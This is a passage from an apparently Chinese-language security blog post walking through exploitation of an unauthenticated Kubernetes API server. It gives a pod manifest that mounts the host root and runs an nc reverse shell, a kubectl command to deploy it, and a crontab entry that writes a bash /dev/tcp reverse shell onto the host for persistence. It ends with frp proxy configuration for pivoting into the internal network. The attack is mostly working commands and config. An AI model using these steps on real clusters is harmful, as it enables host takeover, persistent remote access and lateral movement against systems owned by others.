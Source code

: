     *   name: busybox  
        image: busybox:1.29.2  
        command: \[“/bin/sh”\]  
        args: \[“-c”, “nc ip port -e /bin/sh”\]  
        volumeMounts:
        *   name: host  
            mountPath: /mnt  
            volumes:
    *   name: host  
        hostPath:  
        path: /  
        type: Directory

服务端开启监听，执行命令 `kubectl -s http://10.0.xxx.xxx:8080/ create -f vul.yaml` 。进入 / mnt 目录，可以看到获取了宿主机权限。但由于根目录位于 / mnt 下，与当前环境变量冲突，部分工具无法使用。

![](https://blog.riskivy.com/wp-content/uploads/2019/02/57.png)

5.  向容器的 /mnt/etc/crontab 写入反弹 shell 的定时任务，因为创建容器时把宿主机的根目录挂载到了容器的 / mnt 目录下，所以可以直接影响到宿主机的 crontab。
    
    echo -e “\* \* \* \* \* root bash -i>& /dev/tcp/ip/port 0>&1\\n” >> /mnt/etc/crontab
    

在服务端开启端口监听，等待一段时候后获取 shell，shell 的主机名为宿主机

![](https://blog.riskivy.com/wp-content/uploads/2019/02/58-1.png)

### 4\. 渗透分析

#### 4.1 内网穿透代理服务搭建

渗透过程里，根据具体环境需求，可以搭建内网穿透代理服务来进行后渗透阶段。

frp 是一个可用于内网穿透的高性能的反向代理应用，支持 tcp, udp, http, https 协议。

下载地址：

https://github.com/fatedier/frp/releases

在公网服务器上修改 frps.ini 文件，默认端口 7000，可更改绑定端口。通过`./frps -c ./frps.ini` 启动，在公网监听 7000。

![](https://blog.riskivy.com/wp-content/uploads/2019/02/31.png)

在内网主机上，增加配置如下：

```
\[common\]
server\_addr = 公网IP
server\_port = 7000

\[plugin\_http\_proxy\]
type = tcp
remote\_port = 6004
plugin = http\_proxy

plugin\_http\_user = abcd
plugin\_http\_passwd = abcd


```
